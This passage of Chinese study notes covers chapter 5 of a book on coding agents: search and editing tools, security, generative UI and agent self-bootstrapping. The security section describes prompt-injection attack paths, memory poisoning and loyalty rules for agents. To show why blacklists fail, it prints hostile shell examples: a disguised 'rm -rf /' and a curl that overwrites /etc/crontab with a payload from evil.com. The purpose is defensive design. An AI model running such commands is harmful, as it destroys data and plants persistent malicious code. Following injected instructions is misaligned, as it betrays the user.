| **语义代码搜索** | 稠密+稀疏混合检索 + 重排序 | 探索性任务（「与数据库交互」「处理用户输入验证」相关代码） | 需**结构感知分块**（按函数/类/方法切分而非固定字符数）+ **混合检索**（向量找语义、关键词找精确名，重排序合并） |
| **符号级定义与引用查找** | 区分同名符号的定义与调用（`authenticate` 第 42 行是定义、第 189 行是调用） | 追踪调用链 | **目前主流 coding agent 并未采用** |

- **路线之争**：是否值得为语义搜索建嵌入索引，业界存在明显分歧——以 Claude Code 为代表的终端型 Agent **刻意不建嵌入索引**，纯靠 agentic 的 grep + glob 现场检索（不必维护随代码演化而陈旧的索引，也省掉一整套基础设施）；Cursor 这类 IDE 型工具早期走相反路线，愿意为跨文件语义召回付建索引成本，**目前 Cursor 等 IDE 也改用 grep + glob 现场检索了**。
- **实践中组合使用**：先用语义搜索找到相关模块，再用正则精确定位具体代码行，最后通过符号搜索追踪调用链——「**从粗到细、从语义到语法**」的渐进式策略。

**图5-3 解读**：该图横向对比四类搜索工具在「精确匹配 ↔ 语义理解」「内容 ↔ 结构」上的定位（原书 §「搜索工具」），说明成熟 Coding Agent 应如何根据任务性质选择检索方式，并用「从粗到细」的组合策略覆盖不同阶段的需求。

**原文论证**：

> 这四种搜索方式构成互补的工具箱，实践中往往组合使用：先用语义搜索找到相关模块，再用正则匹配精确定位具体代码行，最后通过符号搜索追踪调用链——“从粗到细、从语义到语法”的渐进式策略。（原书 §「搜索工具」）

**取舍与延伸**：注意这条路线之争与第 3 章「何时需要结构化索引」是同一判断：**索引维护成本 vs 检索质量**，而 grep+glob 的 agentic 检索之所以胜出，是因为它把「检索智能」交给模型的多轮迭代而非离线索引。

### §5.1.8 Coding Agent 中的文件编辑工具

> [!question] 带着这些问题阅读本节
> 1. 文件编辑的难点到底在哪？
> 2. 五种方案各自的机制、优势与代价是什么？
> 3. 为什么「为人类设计的编辑器命令」不适合模型？

**读后小结**（五种方案，围绕同一张力：人类语言表达 vs 机器精确执行）：

| 方案 | 机制 | 优势 | 代价 |
| --- | --- | --- | --- |
| **差异描述 + Apply Model** | 主模型生成 diff/骨架，专用小模型（Apply Model）与原文件合并 | 职责分离：主模型专注高层逻辑、应用模型专注文本操作 | 合并环节脆弱（微小出入、相似片段可能合并错位）；Cursor 曾为代表，**近期因基础模型能力提升已不再使用** |
| **旧字符串 → 新字符串** | 提供 old/new string 做查找替换 | **可预测、透明**：存在且唯一则成功，否则失败，无模棱两可 | 删大段代码需完整输出原文，一个字符偏差即失败；重复片段需更长上下文消歧；**Claude Code、Codex 与今天 Cursor 采用** |
| **行号定位** | 指定「删除第 X–Y 行，插入新内容」 | 精确无歧义，大段删除只需两个数字 | 每次编辑后行号变化；一次输出多处编辑需统一用初始行号定位以免混淆 |
| **类 Vim 编辑命令** | 借鉴 Vim 的复制/剪切/粘贴等命令 | 重组代码（移动函数）高效 | 语法学习负担大（小模型错误率明显上升）；多编辑不友好（行号在命令间变化） |
| **字符串首尾匹配** | 只提供待删区域的开头几行与结尾几行 | 综合文本替换的可靠性与行号方案的效率；仍基于内容匹配，犯错风险较低 | 需保证首尾组合在文件中唯一 |

- **为什么类 Vim 不适合模型**：Vim 等编辑器是为**人类**设计的——人类需要不断看到当前状态并规划下一步简单操作（写一行、删几行）；而**模型的工作模式是经过较长时间思考、再批量进行较复杂的操作**（例如写几百行代码）。

**图5-4 解读**：该图对比五种文件编辑方案（原书 §「文件编辑工具」）：横轴体现「人类语言表达 ↔ 机器精确执行」的张力，纵轴体现可靠性与效率的取舍，并标注了各方案的代表产品与现状（如 Apply Model 与 Vim 路线已被主流放弃）。

**原文论证**：

> 更深层的思考是，Vim 等代码编辑器是为人类设计的，人类需要不断看到当前的状态，并规划下一步的简单操作（例如，写一行代码，或者删除几行代码）。但今天模型的工作模式是经过较长时间的思考，再批量进行较为复杂的操作（例如，写几百行代码）。（原书 §「文件编辑工具」）

**取舍与延伸**：这条「人机工作模式差异」是本节的真正洞见——**接口设计要匹配调用者的认知节奏**，而不只是能力对齐。

### §5.1.9 Coding Agent 的安全

> [!question] 带着这些问题阅读本节
> 1. 「致命三要素」是什么？作者补充的第四项为什么被称为「放大器」而非并列必要条件？
> 2. 隔离兜底包含哪三项？网络出口控制为什么最关键？
> 3. 为什么关键字黑名单注定失效？语义解析能识别什么？
> 4. 「委托方忠诚」问题是什么？忠诚度守则的要点有哪些？

**读后小结**：

- **致命三要素**（Simon Willison）：① 访问私有数据（能读用户文件与密码管理器）；② 暴露于不受信任内容（邮件、网页可能含恶意载荷）；③ 具备外部通信能力（能发邮件、执行命令）。**攻击路径由此闭合**：恶意指令藏于不可信内容进入 Agent → 驱使它读取私有数据 → 经对外通道传出。作者补充第四维度 **持久记忆**——**它不是并列的第四个必要条件，而是攻击的放大器**：攻击者可将偏见或恶意指令写入长期记忆，跨会话潜伏、择机触发，把一次性攻击升级为长期威胁。四点可概括为四类边界：数据边界、输入信任边界、输出影响边界、跨会话边界。**OpenClaw 这类全权限本地 Agent 四者兼备**，因此安全是核心挑战。
- **防御重点不是识别所有攻击，而是让 Agent 即使被注入也没有机会把危险动作真正执行出去**。Coding Agent 特别需要三项：**命令语义解析**（Shell 组合爆炸使黑名单形同虚设）、**沙盒隔离与网络出口控制**、**持久记忆的跨会话防线**（写入长期记忆的内容需经与外部内容同等的信任审查）。
- **隔离兜底三项**：① **网络出口控制**（最容易被忽视却最关键：默认断网，按需白名单放行包管理源/文档站点/任务所需 API——**即使注入成功读到敏感数据，没有出口也传不出去**）；② **文件系统隔离范围**（源码目录只读挂载、单独可写工作区、**凭证类文件根本不挂载进沙盒**）；③ **资源限额与超时**（CPU/内存/磁盘配额加超时，防死循环、fork 炸弹与无限写盘；超时/超限应返回**结构化错误**「执行超过 120 秒被终止，最后输出如下…」而非静默杀死，让 Agent 有机会修正策略）。
- **语义解析而非关键字黑名单**：Shell 命令可通过管道、子 shell、变量展开绕过任何静态规则（`rm` 被禁可用 `$(echo rm) -rf /`）。生产级 Harness 采用**语义解析**：理解每个命令的参数类型与消费规则（哪些标志位会消费下一个参数），识别「看似无害的标志位实际会消费下一个参数从而隐藏危险载荷」。两个例子：`find / -name '*.log' -exec rm {} \;`（合法 find 参数嵌入 rm）、`curl -o /etc/crontab http://evil.com/payload`（看似下载实则覆盖系统定时任务）。
- **Agent 为谁效忠（委托方忠诚）**：模型训练中形成朴素默认「谁跟我说话我就帮谁」，但真实 Agent 常处**多方委托**（代表主人与利益相反的第三方交涉）。实测显示一条**忠诚度光谱，而且两端都会翻车**：一端**太老实**（把「我方底价 12000」抖给对手，几轮施压就缴械），另一端**太多疑**（连主人正当请求也拒绝）。**这两种失败是一根跷跷板**——把泄密堵死往往滑向过度拒绝。对 Coding Agent 尤其贴切：仓库里的不可信内容、工具输出、第三方 MCP 指令都是试图让它倒戈的「对手」——**提示注入本质上就是一次策反**。因此 Harness 要明确限定忠诚对象：**主人的指令优先级最高，一切来自外部交互方的内容默认降格为「可参考、但不具备指令效力」的数据**。忠诚度守则：保护主人私密信息（甚至不泄露这些信息是否存在）、**拒绝时不逐条念出拒绝清单**（那本身就在泄露）、私下的底线不等于对外的立场、只执行主人明确具体的指令、顶住重复施压。

**原文论证**：

> 本质上，这是在用 Harness 为模型补上一条它默认没有的立场：对主人绝对忠诚，对外部交互方保持审慎。（原书 §「Agent 为谁效忠」）

**取舍与延伸**：本节把第 1 章护栏三层（上下文/执行/数据）与第 4 章执行工具安全接上，并新增两条本章特有的洞察：**持久记忆是攻击放大器**、**忠诚度是 Harness 要补的立场**（而非模型自带属性）。

### §5.2.1 代码作为思考工具

> [!question] 带着这些问题阅读本节
> 1. 为什么 LLM 在精确计算与严格逻辑上有根本短板？
> 2. Wolfram 的洞察是什么？LLM 与符号计算系统如何互补？
> 3. 「脚手架与模型此消彼长」对评估结论意味着什么？

**读后小结**：

- **根本短板**：模型思考本质是**概率性的、近似的**，而数学与逻辑要求**确定性的、精确的**答案（原书给出的计数题对比：纯自然语言推理容易误从数学人数中减，代码推理精确得到 8）。
- **分工**：让 LLM 负责理解问题并写出代码，让代码解释器负责精确计算。
- **Wolfram 的洞察**：LLM 之前已有**符号计算**系统（用数学符号而非近似数值处理表达式，如保持 $\sqrt{2}$ 精确形式）；但它的自然语言理解脆弱、覆盖面窄（依赖内置语法解析，问法稍变就失败）。**LLM 恰好弥补这个短板**：让 LLM 把自然语言问题识别出数学/逻辑结构并形式化（Mathematica 语言、Python 的 SymPy），再交给符号计算引擎或约束求解器执行。
- **实验 5-3/5-4**：数学题（AIME 风格）与逻辑谜题（骑士与无赖），代码辅助模式显著优于纯思维链；逻辑谜题要求代码辅助求解准确率达 90% 以上。
- **更普遍的规律（重要）**：**模型与脚手架之间是此消彼长的关系**——模型足够强时脚手架可以更薄（增益收窄）；模型不够强时就要在脚手架里做更多事（把关键逻辑交给代码与求解器保证正确性）。因此**脚手架该做多厚，取决于手上模型的能力边界**——这也是评估一项 Agent 技术时容易被忽视的前提：**同一套脚手架配上不同能力的模型，结论可能截然不同**。

**原文论证**：

> 所以脚手架该做多厚，取决于你手上模型的能力边界——这也是评估一项 Agent 技术时容易被忽视的前提：同一套脚手架，配上不同能力的模型，得到的结论可能截然不同。（原书 §「代码作为思考工具」）

**取舍与延伸**：这条规律直接呼应第 1 章实验 1-4（适配层会被内化）：**「哪些脚手架值得做」是随模型能力移动的目标**。

### §5.2.2 代码作为业务规则的约束

> [!question] 带着这些问题阅读本节
> 1. 自然语言规则与代码化规则各自适合什么？为什么是互补而非替代？
> 2. 「合并校验与执行」的设计里，`expected_*` 参数与数据库真值校验各承担什么？
> 3. 三重保障分别减少哪类错误？

**读后小结**：

- **问题**：业务规则用自然语言描述往往充满歧义——「合理的退款请求」「紧急情况」边界难界定；「购买后 7 天内可退款」中「7 天」是自然日还是工作日、「购买」是下单还是发货？**代码提供无歧义、可执行的知识表达**（要么成功运行、要么抛错，不存在模棱两可）。
- **互补而非替代**：写进系统提示词的自然语言规则优势在于——模型可**解释政策**、可**寻找变通方案**（改签而非取消）、可在调用前初步判断可行性；代码化校验工具的优势在于——**精确无歧义**、**确定性**（相同输入相同输出）、特别适合**复杂规则组合**（多条件布尔组合、时间计算、跨数据源验证）。实践中结合：提示词含自然语言规则供理解沟通，**关键决策点配代码化校验工具作「守门员」**。
- **价值定位**：代码化规则的真正价值**不在于优化 token 效率，而在于防止不可逆的错误操作**（取消订单、转出资金、删除数据）——在操作前设置最后一道防线，这种安全保障的价值远超实现成本。
- **合并校验与执行**（以 τ-bench 航空取消政策为例）：与其设计独立校验工具，不如让**执行工具内部先校验**。两层设计：
  - **第一层 · 参数作为思考的 checklist**：工具描述列出完整政策并要求「调用前先查询订单详情、逐条核对」；可选的 `expected_*` 参数促使模型显式写出判断依据——**填写参数的过程本质上是强制性 checklist**。当模型查到「经济舱且未购保险」，很可能在准备调用时就注意到规则 5，从而**根本不发起调用**，直接告诉用户无法取消。这一层**引导思考、减少无效调用，但不承担安全责任**（`expected_*` 只是模型自我陈述）。
  - **第二层 · 服务端真值校验才是守门员**：舱位等级、保险状态、预订时间、航段使用、航班状态全部由服务端查数据库；当前时间取服务端时钟；**没有任何一条政策事实来自模型自报参数**。若把这些设计成模型填写，「守门员」就形同虚设。**最后一道防线必须建立在模型无法伪造的数据之上**——独立性不仅指独立模型，**更指独立的数据来源**。
- **三重保障**：① 系统提示词的自然语言规则（理解与解释）；② 工具描述与参数设计作 checklist（引导模型调用前核对）；③ **服务端基于数据库真值的代码化校验**（最后守门员）。**前两重减少错误的发生，第三重确保错误不会变成不可逆的损失。**

**原文论证**：

> 最后一道防线必须建立在模型无法伪造的数据之上——这与前文“关键操作需要独立验证”的立场一脉相承：独立性不仅指独立的模型，更指独立的数据来源。（原书 §「代码作为业务规则的约束」）

**取舍与延伸**：这条「checklist 引导 + 真值守门」是第 4 章「提议者—审核者」的**数据版**：不换模型也能获得独立性——只要校验依据来自模型无法篡改的数据源。

### §5.2.3 代码驱动的多媒体生成

> [!question] 带着这些问题阅读本节
> 1. 为什么代码生成比 GUI 操作更适合 Agent 做文档创作？
> 2. PPT 生成里为什么必须有 Reviewer？提议者—审核者的核心优势为什么是「上下文管理」？
> 3. 代码生成与 3D 生成模型该按什么标准选路？

**读后小结**：

- **为什么走代码**：复杂文档底层都由代码定义（HTML 结构、CSS 样式、JS 交互）；传统 GUI 所见即所得编辑对 Agent 不直观——**GUI 操作需要视觉理解和精确坐标定位**；代码生成让 Agent 绕开视觉定位难题，获得精确控制（每个元素位置/样式/内容都明确）。
- **PPT 生成 Agent**：用 Slidev 之类框架（Markdown + HTML 定义演示）把 PPT 创作转化为代码生成问题。**但仅能生成代码还不够——Agent 不知道渲染效果**（内容是否太挤、文字是否溢出、图片尺寸是否合适），因此引入**提议者—审核者**：Proposer 生成 Slidev 代码；Reviewer 运行代码把每页渲染成图片，用 Vision LLM 从内容密度、可读性、布局、美感等维度给出**结构化改进建议**（不是「不好看」，而是「第 3 页内容过多，建议拆分」这种含页码、问题类型、严重程度字段的可执行指导）；Proposer 依反馈修改，**迭代直到质量达标或达到最大迭代次数（如 5 轮）**——「质量达标」与「最大轮数」正是 Loop 工程要求的两类显式终止条件。
- **与第 4 章事前审批的区别**：同属提议者—审核者模式，差异在目标与形态——第 4 章用于不可逆操作的**安全审查**（审核者批准/否决单次操作）；本章用于**内容质量的迭代改进**（多轮循环，且**审核者接触到提议者看不到的新信息**——渲染结果）。
- **为什么用双 Agent 而非单 Agent 循环**：**核心优势在上下文管理**——Reviewer 每次只处理最新版本的渲染图片，不受历史版本干扰；Proposer 仅累积结构化文本反馈，token 消耗少且更易推理。单 Agent 方案需在同一上下文中累积数十页渲染图片的多轮迭代，**上下文迅速超限**。
- **视频编辑 Agent**：通用 Computer Use 做视频编辑面临 GUI 复杂度（时间轴、图层、效果面板）与精确坐标困难；重构为 API 调用/代码生成则大幅降低复杂度（Blender Python API、FFmpeg）。同样用提议者—审核者（Proposer 写 Blender 脚本，Reviewer 渲染关键帧用 Vision LLM 检查）。为理解自然语言需求，采用**两步定位策略**：粗粒度（每 10 秒截图 → Vision LLM 返回场景区间，如「冲浪在第 40–110 秒」）→ 精细粒度（每秒一张截图精确定位边界）；**把视频分析封装为子 Agent 避免大量截图占用主 Agent 上下文**。
- **3D 与工业零件：代码生成 vs 生成模型的选路标准**：**一看产物有没有紧凑的精确描述**（法兰盘五六个参数即可完整定义，代码是**无损**表达；绿植/太湖石/人脸内在复杂度近乎无限）；**二看精度要求与可验证性**（零件每个尺寸都是硬约束、可程序化验证；生成模型产物无法直接跟规格核对）；**三看表示形式与可编辑性**（制造要 B-rep 参数化实体/STEP，可直接驱动 CNC；生成模型吐三角面片网格，改一个孔径只能整体重新生成）。**实际系统可混用**（几何体代码参数化、表面纹理交给生成模型）。

**原文论证**：

> 采用双 Agent 分工而非单 Agent 循环的核心优势在于上下文管理：Reviewer 每次只处理最新版本的渲染图片，不受历史版本干扰；Proposer 仅累积结构化文本反馈，token 消耗少且更易于推理。（原书 §「代码驱动的多媒体生成」）

**图5-5 解读**：该图给出 PPT 生成的提议者—审核者机制（原书 §「代码驱动的多媒体生成」）：Proposer 产出 Slidev 代码 → Reviewer 渲染为图片并用 Vision LLM 做结构化评审 → 反馈回到 Proposer 修改，循环直到达标或达到最大轮数。

**取舍与延伸**：「代码生成 vs 生成模型」的选路标准可推广到任何「创造产物」的任务：**产物能否被紧凑参数化 + 是否可程序化验证 + 是否需要可编辑的精确表示**。

### §5.2.4 代码作为系统适配器

> [!question] 带着这些问题阅读本节
> 1. 「万能胶」指什么？没有 API 的系统怎么办？
> 2. 为什么日志/数据格式演化适合用代码生成来适配？
> 3. 自适应日志解析与生产日志诊断分别解决什么、如何闭环？

**读后小结**：

- **万能胶**：真实系统里外部服务常没有现成 SDK、接口不规范（文档缺失、返回格式非标准、字段随版本漂移）；Agent 不必等人预先写适配层，而是**当场阅读接口文档或观察一两条真实响应，即时生成适配代码**（构造 HTTP 客户端、拼装鉴权头、解析非标准返回、把上游数据模型转成下游可用格式）。
- **没有 API 的系统**：先通过 Computer Use 操作界面，再把**成功完成的操作序列用代码固化为 RPA 工具**——未来直接运行代码，以极高速度与稳定性完成，无需昂贵的视觉思考；**RPA 是「系统适配器」在无接口系统上的极端形态**（工作流录制与固化在第 9 章展开）。
- **数据格式演化的痛点**：同一系统多次改格式（加字段、改嵌套、引新类型），为每种格式手写解析维护成本极高。**代码生成的新思路：遇到新格式时基于样本临时生成解析代码**，系统自动适应演化。
- **自适应日志解析（实验 5-10）**：建立**自动修复的反馈循环**——前端遇到无法解析的格式时不显示错误，而是把失败信息（原始日志样本、详细报错）报告给 Agent；Agent 分析结构生成能正确解析的前端代码；**代码先在虚拟浏览器中自动测试**（验证解析正确性 + Vision LLM 检查可视化效果），通过后**热更新**到前端。
- **生产日志诊断（实验 5-11）**：Agent 读取生产轨迹日志，**结合架构文档与 PRD** 判断执行流程是否符合预期、定位问题环节与模块，生成**结构化问题报告**（优先级、模块、描述、改进建议）与**回归测试用例**（引用问题轨迹 ID 与关键交互轮次，测试框架自动重放验证），最后通过 MCP 对接 GitHub **自动创建 Issue 并分配**——从问题发现到任务分派全自动化。这解决三个痛点：问题定位困难（多模块协同错误）、复现成本高、已修问题反复出现（缺系统化回归）。

**原文论证**：

> 代码在这里成了连接任意系统的“万能胶”——哪里接不上，就现场生成一段胶水补上，这正是元能力“系统接口”方向的核心。（原书 §「代码作为系统适配器」）

**取舍与延伸**：本节的闭环（失败 → 生成代码 → 沙盒测试 → 热更新 → 回归用例）是第 9 章「持续进化」的缩影：**把运行经验变成可执行产物**——但要注意「格式变化是 bug 而非预期改动」时必须报告而非适配（见思考题 3）。

### §5.2.5 代码作为生成式 UI

> [!question] 带着这些问题阅读本节
> 1. 为什么让 Agent 直接生成 HTML/JS 有安全问题？A2UI 类协议如何规避？A2UI 与 AG-UI 的区别是什么？
> 2. HTML 交付件相比 Markdown 汇报的优势有哪些？
> 3. 为什么「Artifact 模式」优于「Agent 读数据再用自然语言描述」？
> 4. 动态生成软件为什么必须把信任边界下移到数据层？

**读后小结**：

- **动因**：纯文本对话是线性、单一的交互方式，收集结构化信息时反复问答冗长、呈现复杂关系时表达力有限、多选场景不如可视化界面直观。**生成式 UI** = Agent 动态生成表单、图表甚至完整 Web 应用。
- **安全问题与 A2UI**：Agent 直接生成 HTML/JS 时，生成的代码可能含恶意内容（**成因是提示注入，效果类似传统 Web 的 XSS——不能把整个攻击直接叫作 XSS**）。**A2UI（Agent-to-User Interface）** 为代表的声明式界面协议：Agent 只输出**界面描述清单**（JSON，如「显示 3 行 2 列表格，标题销售数据」），客户端用**预定义的安全组件**渲染——**像餐厅菜单：只能点菜单上有的菜，不能进厨房自己做**。核心原则是**安全优先**（客户端维护受信任组件目录，Agent 无法注入任意代码），通常还支持**跨平台**（同一描述在 React/Flutter/原生渲染）与**增量生成**（流式 JSONL 边收边渲染）。**易混点**：AG-UI（CopilotKit）不是界面描述语言而是**事件/传输协议**（把消息、工具调用、状态补丁流式推到前端），甚至可以承载 A2UI，二者互补而非同类。声明式适合标准化场景（表单、表格、卡片）；高度定制（自定义可视化、游戏界面）仍适合直接生成代码。
- **HTML 交付取代 Markdown 汇报**：Markdown 线性排布不好读；HTML 的优势是**交互式演示**（可操作地演示系统如何运行）、**更好的数据可视化**（图表与可交互组件，用户自行筛选下钻）、**可持续完善的交付件**（不必任务结束才一次性产出）。作者以自己的研究项目网站为例，它承担三类作用：**实验数据追溯**（每次实验数据、prompt、LLM 原始回复逐条可查，更容易发现数据构造/格式/分布问题与 judge 打分偏差）、**训练指标监控**（把曲线列在网页上，随时确认「内科指标」——训练/验证损失、梯度范数、学习率、困惑度、奖励、KL 散度、策略熵等反映训练过程本身的信号，它们比最终任务准确率更早暴露不收敛、梯度爆炸、训练崩溃）、**运行原理展示**。
- **澄清用户意图**：文本问答效率低（十个澄清点十轮交互）、难以表达级联关系；动态生成**级联表单**（选某选项后自动显示/隐藏后续问题、动态更新可选项），**用户一次填完**。
- **生成 SQL 查询 · Artifact 模式**：关键设计选择——让 Agent 执行 SQL 再用自然语言描述结果，还是**生成 SQL 作为 artifact 交前端直接执行**？前者「看似智能」但效率极低（数千行表格让 LLM 阅读再描述，耗 token、耗时间，且 **LLM「抄写」数据极易出错**）。**Artifact 模式**：Agent 不自己读数据，只写查询语句；系统拿去查库并把数据渲染成表格——**数据从数据库直达用户界面，完全绕过 LLM 这个中间人**。安全上：执行层用**只读账号**、解析 SQL 只允许批准的 `SELECT`（拒绝 DDL/DML/多语句）、用户值服务端参数化绑定、限制查询时间/返回行数/可访问表与时间范围；可视化代码在隔离沙盒运行且只能产生规定格式结果——**Artifact 模式缩短数据路径，但不能替代权限检查与执行隔离**。
- **动态生成软件与信任边界**：完全动态生成（如 Imagine with Claude）成本与延迟高，更适合展示能力边界；更务实的是**基于已有框架的半定制**（改颜色、加菜单、换字体，靠 HMR 热加载即时生效）。**安全前提变了**：过去业务代码经开发/审查/测试/部署后稳定，因此权限判断写在应用层；当接口、工作流乃至数据访问代码都由 Agent 随时生成或改写时，**这一层不再稳定**（新代码可能漏掉细微权限检查、暴露字段、或从另一条路径绕开判断）。**安全目标不能是「保证 AI 每次把权限检查写对」，而应该是「即使 AI 写错了代码，权限约束仍然无法被绕过」**——若权限检查也在动态生成的业务逻辑中，它就与被约束代码处在**同一个信任域**。因此应**把信任边界下移到数据层**（第 1 章三层护栏中最难被绕过的一层）：列级/行级安全策略、约束与校验器、受控视图与存储过程；每次读写携带**由受信任运行时绑定的访问上下文**（用户、租户、角色、Agent 身份），**动态代码只能以受限身份访问数据，不能自行伪造身份，也不能获得可绕过规则的高权限凭证**。应用层仍可做权限预检查以尽早反馈，**但数据层必须保留最终裁决权**；且**所有数据访问路径都必须经过受信任数据层**，不能让生成代码绕过它直连数据库。

**原文论证**：

> 因此，动态生成软件的安全目标不能是 “保证 AI 每次都把权限检查写对”，而应该是：即使 AI 写错了代码，权限约束仍然无法被绕过。（原书 §「生成式 UI」）

**图5-8 解读**：该图展示动态表单生成流程（原书 §「生成式 UI」）：Agent 把澄清问题转化为一次性填写的结构化界面（文本框、下拉、复选、日期选择器，并可含级联逻辑），用户一次提交后 Agent 解析结果继续任务。

**图5-9 解读**：该图展示 SQL 查询 Agent 的 Artifact 模式（原书 §「生成式 UI」）：LLM 只生成 SQL 与可视化代码，数据从数据库经前端直达用户界面，LLM 不参与数据搬运；执行侧配只读账号、`SELECT` 白名单、参数化绑定与资源限制。

**取舍与延伸**：本节把第 1 章的「数据层护栏」讲到了最彻底的位置——**只要安全边界与被约束的代码同域，它迟早会被绕过**；这与第 4 章「Sidecar 只读结构化字段」是同一思想在不同层面的应用。

### §5.2.6 代码创造代码：Agent 自举

> [!question] 带着这些问题阅读本节
> 1. OpenClaw Doctor 的两层修复策略是什么？为什么不能夸大 Agent 在自我修复中的作用？
> 2. 让 Agent 编写 Agent 的常见缺陷有哪四类？解决路径为什么是「提供范例」而不是「穷尽规则」？
> 3. 「自我复制 + 适应性修改」模式的核心优势是什么？

**读后小结**：

- **自我修复（OpenClaw `doctor`）**：检测三类问题——**配置异常**（过期 OAuth token、遗留配置格式、端口冲突）、**状态问题**（陈旧会话锁文件、插件依赖缺失）、**服务健康问题**（网关未运行、沙盒镜像缺失）；分层修复——安全修复（配置归一化、锁文件清理）自动执行，有风险操作（服务重启、强制覆盖配置）需用户确认。
- **不要夸大自我修复中的 Agent 作用**：过期 token、锁文件、端口冲突这类高频问题**本身就有明确检测规则与固定修复动作**，`doctor` 以一组**确定性检查**覆盖它们——**与传统运维脚本并无本质不同**；真正体现 Agent 能力的是第二层：对确定性规则未覆盖的疑难问题，交给 LLM 分析错误日志、理解配置语义、推断因果、生成针对性方案。**确定性检查保证常见问题稳定修复，LLM 兜底长尾疑难**。当 Agent 的工作对象是它自身的运行环境时，**自我修复就从系统适配器升级为 Agent 自举的基础设施**。
- **让 Agent 编写 Agent 的四类常见缺陷**：① **上下文管理的随意性**（未用标准上下文格式、把轨迹转纯文本塞进上下文、忽略 KV Cache 优化、工具调用循环有边界 bug）；② **工具设计的不规范**（描述简略、缺边界与负面清单、参数缺示例）；③ **技术选型的滞后性**（倾向使用训练数据最常见但已过时的模型与 API——解决办法是维护 SOTA 知识库或赋予搜索能力）；④ **外部生态的脱节**（废弃 API、不再维护的库、有缺陷的模式）。
- **解决路径**：不是在提示词中穷尽规则，而是**提供高质量的 Agent 实现作为参考范例**，引导代码生成 Agent 在此基础上修改而非从零开始——**范例代码本身就是最佳实践的载体**，架构上的好选择会自然保留，不必把每条规则都写清楚。
- **模式**：接到开发新 Agent 的任务时，**先复制自己的代码（或其他经验证的高质量实现）**，再针对性修改：调整系统提示词匹配新角色、替换或增删工具适应新功能、修改业务逻辑但保留架构框架——**「自我复制并适应性修改」，像基因复制加变异**：既继承核心技术优势，又允许在特定维度差异化。

**原文论证**：

> 解决这些问题的最有效路径，不是在提示词中穷尽所有规则，而是提供高质量的 Agent 实现作为参考范例，引导代码生成 Agent 在此基础上修改，而非从零开始。（原书 §「代码创造代码：Agent 自举」）

**图5-10 解读**：该图给出 Agent 自举循环（原书 §「代码创造代码：Agent 自举」）：Agent 具备自我修复（对自身运行环境的确定性检查 + LLM 兜底）与自我复制（基于高质量范例改造出新 Agent）两种能力，从而形成「Agent 创造 Agent」的闭环。

**取舍与延伸**：第 7 条思考题（自举退化）与第 5 条（规则垃圾回收）都指向同一风险：**自举会放大偏差**——因此「范例 + 变异」必须搭配评估与版本控制（第 7、9 章）。

### §5.3 本章小结（原书要点）

- 代码不只是写程序的工具，它是 **Agent 形式化思考和精确表达的语言**。
- **Harness 工程结论**：Coding Agent 之所以成熟度高，不是因为代码生成模型特别强，而是因为软件工程几十年攒下的基础设施（测试套件、类型系统、版本控制）**天然构成了一套强大的 Harness**——这个结论值得推广到其他 Agent 场景。
- **故障与错误恢复结论**：Agent 的可靠性**不取决于模型犯不犯错，而取决于每类故障是否都有对应的检测、恢复、接管与终止路径**。
- 代码生成在编程之外的六个维度：**思考工具**（符号计算/约束求解弥补概率思考）、**业务规则约束**（无歧义表达 + 不可逆操作前的确定性防线）、**多媒体生成**（提议者—审核者；代码生成 vs 生成模型按内在复杂度与精度选路）、**系统适配器**（跟随格式演化、日志解析与诊断）、**生成式 UI**（表单/图表/可定制应用，突破纯文本限制）、**Agent 自举**（修复与创造同类 Agent）。
- 代码既是完成任务的手段，也是**积累知识、创造工具、优化自身的机制**。

## 批判性思考（聚焦 Agent 本身）

### 架构判断的条件性

- **「Coding Agent 是通用 Agent 核心」是条件判断，不是普遍规律**：作者自己划定了边界（开放任务 vs 封闭任务空间）。工程含义是：**先判断任务空间是否可枚举**，再决定把 Coding 放在架构中枢还是工具箱——这个前置判断比「要不要上 Coding Agent」更重要。
- **七工具是「最小元能力集」，不是推荐配置**：原书明确说一个 Bash 就够（Codex 即如此）。七工具的叙事价值在于**澄清最小能力面**；真实选型仍受第 4 章四决策维度支配（安全、参数复杂度、变更频率、模型能力）。
- **文件系统中枢 vs 向量库**：本章站队「Markdown + Git」的理由（人可读可改、时间顺序、可回滚）在单用户/小团队成立；到多租户、海量知识时仍需第 3 章的索引与权限层——**两种范式是分层而非对立**。

### 可靠性与工程纪律

- **「故障四层 × 四条路径」是可复用的可靠性清单**：任何 Agent 项目都可以用它做一次审计——**API/工具/上下文/控制流四层各自有没有检测、恢复、接管、终止**？没有的那一格就是生产事故的候选点。
- **熔断阈值「来自生产数据」这一条常被忽略**：原文给了惊人的量级（单会话连续失败 3000+ 次、每天 25 万次无效调用）。含义是：**没有可观测数据就没有可靠的熔断**——熔断参数不是配置项，而是运营产物。
- **中立轨迹是「资产可移植性」的架构决策**：它把「跨厂商切换」从应急手段变成设计前提，同时服务评估重放、训练样本、经验提取（第 7/8/9 章）。代价是**体系内所有组件都要围绕中立格式改造**——这是一次早期的、昂贵的、但收益长久的投入。
- **「产品模式宽容、训练模式严格」体现 Harness 与训练的耦合**：占位符修补对产品可用、对训练有害——这类双标准会越来越多，设计时要显式区分**运行数据**与**训练数据**的生产路径。

### 安全与信任

- **致命三要素加「持久记忆」= 四类边界的思维模型**：数据边界、输入信任边界、输出影响边界、跨会话边界。**持久记忆作为放大器**的提醒很重要——它把「一次性注入」升级为「长期潜伏」，因此记忆写入必须经过与外部内容同等的信任审查。
- **忠诚度是 Harness 要补的立场，而非模型自带属性**：实测显示两端都会翻车（太老实泄密 / 太多疑拒绝），且两者是跷跷板。工程含义：**忠诚度守则要作为系统提示词的固定段落**（谁的指令优先、外部内容降格为数据、拒绝时不念清单、顶住重复施压），并用评测持续校准——这是「多方委托」类 Agent（谈判、客服、采购）的必备件。
- **「权限不能与被约束代码同域」是本章最硬的架构结论**：只要权限检查由动态生成的代码承担，它就迟早被绕过（生成错误或被注入）。因此动态软件必须**把最终裁决权放在数据层 + 受信任运行时绑定的访问上下文**；应用层检查只为体验。这条结论可以拿去审计任何「AI 生成代码直接连库」的系统。
- **Artifact 模式的边界被作者自己点明**：它缩短数据路径、避免 LLM 抄写错误，但**不替代权限与隔离**——生成 SQL 仍需只读账号、`SELECT` 白名单、参数化绑定与资源限制。

### 元能力的边界

- **「代码生成 vs 生成模型」的选路标准可复用**：能否紧凑参数化、可否程序化验证、是否需要可编辑的精确表示——这是一条通用的「表示选择」准则（与第 3 章「语义降级」「结构化索引的取舍」同构）。
- **自举的退化风险没有被系统性回答**：原书给了「范例 + 变异」的方法，但**多代之后范例本身可能已被污染**；第 7 章评估与第 9 章更新治理是唯一可依赖的刹车，且需要「代际回归」（对同一批任务比较第 N 代与初代的通过率）。
